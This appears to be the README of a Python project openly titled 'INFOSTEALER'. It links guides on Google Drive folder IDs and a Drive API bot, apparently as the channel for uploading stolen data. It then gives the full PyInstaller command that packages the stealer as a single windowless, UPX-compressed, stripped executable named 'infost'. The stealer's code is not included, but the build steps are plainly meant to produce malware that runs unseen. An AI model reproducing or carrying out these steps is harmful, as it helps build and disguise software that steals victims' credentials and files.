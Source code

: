 # INFOSTEALER
----------------------------------------------------
python env: https://coderslegacy.com/pyinstaller-virtual-environment-with-venv/
folder id: https://robindirksen.com/blog/where-do-i-get-google-drive-folder-id
google drive bot: https://obikastanya.medium.com/easy-way-to-integrate-your-python-apps-with-google-drive-api-2f29ed0be239
----------------------------------------------------
python -m venv [env name]
(link)
pip list
pip install -r requirements.txt

(last step - after full config - google drive)
\[env name]\Scripts\pyinstaller.exe 
--noconsole --onefile --clean
--paths '[path]\[env name]\Lib\site-packages' 
--upx-dir 'D:\Programs\UPX\upx-4.0.2-win64'  
--exclude-module altgraph 
--exclude-module colorama 
--exclude-module charset-normalizer 
--exclude-module idna 
--exclude-module zope.interface 
--exclude-module importlib-metadata 
--exclude-module install 
--exclude-module Jinja2 
--exclude-module MarkupSafe 
--exclude-module protobuf 
--exclude-module pyasn1-module 
--exclude-module pytz 
--exclude-module Werkzeug 
--exclude-module urllib3 
--exclude-module zip 
--exclude-module certifi 
--exclude-module google-auth-httplib2 
--exclude-module googleapis-common-protos  
--exclude-module google-auth 
--exclude-module google-api-core 
--exclude-module google-api-python-client 
--exclude-module pyinstaller 
--exclude-module setuptools 
--exclude-module requests 
--exclude-module pycryptodome 
--exclude-module pip 
--exclude-module Flask 
--exclude-module DateTime 
--strip 
--name infost main.py

